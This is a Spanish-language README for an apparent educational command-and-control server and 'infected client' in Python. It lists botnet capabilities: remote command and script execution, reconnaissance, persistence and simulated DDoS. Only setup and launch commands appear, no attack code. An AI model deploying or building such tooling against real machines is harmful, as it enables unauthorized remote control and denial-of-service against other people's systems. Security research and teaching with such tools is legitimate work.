 # 🕵️‍♂️ C2 Server

Este es un servidor de Comando y Control (C2) desarrollado para fines educativos y de investigación en entornos controlados. Permite la gestión de bots conectados y el envío de órdenes desde una consola central.

## 🚀 Características

- 📡 Acepta múltiples conexiones de bots.
- 🔄 Manejo de órdenes en tiempo real.
- 🛠 Interfaz en línea de comandos para administrar bots.
- 🔍 Monitoreo de actividad y mensajes enviados.
- ⚙️ Identificación del sistema operativo de los bots (Windows o Linux).
- 🛡️ Mejor control de errores y estabilidad en el manejo de conexiones.
- 🔐 Mejoras en la selección y envío de comandos a los bots.
- 🛠 Simulación de ataques DDoS de manera controlada.
- 🛑 Capacidad para detener simulaciones de DDoS.

## 🔧 Instalación

1. Clona el repositorio:
    ```bash
    git clone https://github.com/cybermemillo/c2memo.git
    cd c2memo
    ```

2. Instala las dependencias necesarias:
    ```bash
    pip install -r requirements.txt
    ```

3. Configura el archivo `config.ini` en la carpeta `config` según tus necesidades.

4. Inicia el servidor:
    ```bash
    python3 src/servidor.py
    ```

5. Inicia el cliente infectado en las máquinas que desees conectar al servidor:
    ```bash
    python3 src/clienteinfectado.py --host <IP_DEL_SERVIDOR> --port <PUERTO> --key <CLAVE>
    ```

## 📌 Novedades en esta versión (v1.1)

- 🌍 **Detección del sistema operativo de cada bot** para adaptar los comandos enviados según sea Windows o Linux.
- 🛠 **Manejo seguro de desconexiones** para evitar errores al eliminar bots inactivos.
- ✅ **Validación de selección de bots** para prevenir fallos en la conversión de IDs.
- ⚖️ **Mejor gestión de errores** en la conexión y ejecución de comandos.
- 🖥️ **Interfaz más estructurada** en la consola, con opciones mejor organizadas.
- 🤖 **Mejoras en el cliente infectado**:
  - Implementación de detección del sistema operativo.
  - Introducción de la función `ejecutar_comando()` para mejorar la ejecución de órdenes.
  - Manejo de errores en la recepción y ejecución de comandos.
  - Optimización del código y eliminación de redundancias.
  - Documentación mejorada con docstrings detallados.

## 📚 Uso del Proyecto

### Menú Principal del Servidor

1. **Listar bots conectados**: Muestra una lista de todos los bots actualmente conectados al servidor.
2. **Enviar comandos**: Permite enviar comandos a los bots conectados.
3. **Cerrar conexión con un bot**: Cierra la conexión con un bot específico.
4. **Salir**: Detiene el servidor y cierra todas las conexiones.

### Comandos Disponibles

#### Comandos Básicos

1. **Obtener información del sistema**: Muestra información del sistema operativo del bot.
2. **Consultar conexiones de red**: Muestra las conexiones de red activas en el bot.
3. **Ver procesos en ejecución**: Lista los procesos en ejecución en el bot.
4. **Listar archivos en el directorio actual**: Muestra los archivos en el directorio actual del bot.
5. **Obtener la IP pública**: Muestra la IP pública del bot.

#### Comandos Avanzados

1. **Simular ataque DDoS**: Inicia una simulación de ataque DDoS en el bot.
2. **Detener simulación de DDoS**: Detiene la simulación de ataque DDoS en el bot.
3. **Ejecutar un comando personalizado**: Permite enviar un comando personalizado al bot.
4. **Ejecutar un script remoto**: Permite enviar y ejecutar un script remoto en el bot.
5. **Intentar asegurar la persistencia**: Intenta establecer persistencia en el bot.

## 📦 Dependencias

- Python 3.x
- requests
- sqlite3
- configparser
- logging

## 📂 Estructura del Proyecto

```plaintext
C-CMemo/
├── config/                # Configuración del proyecto
│   └── config.ini
├── docs/                  # Documentación
│   ├── LICENSE.md
│   └── README.md
├── logs/                  # Aquí se guardarán los logs
│   └── client.log
├── src/                   # Código fuente
│   ├── bbdd/              # Base de datos
│   │   └── bots.bd
│   ├── clienteinfectado.py
│   └── servidor.py
└── requirements.txt       # Dependencias del proyecto
```

## ⚠️ Nota Importante

Este proyecto está diseñado únicamente para uso en entornos de prueba y con propósitos educativos. No se debe utilizar para actividades no autorizadas.
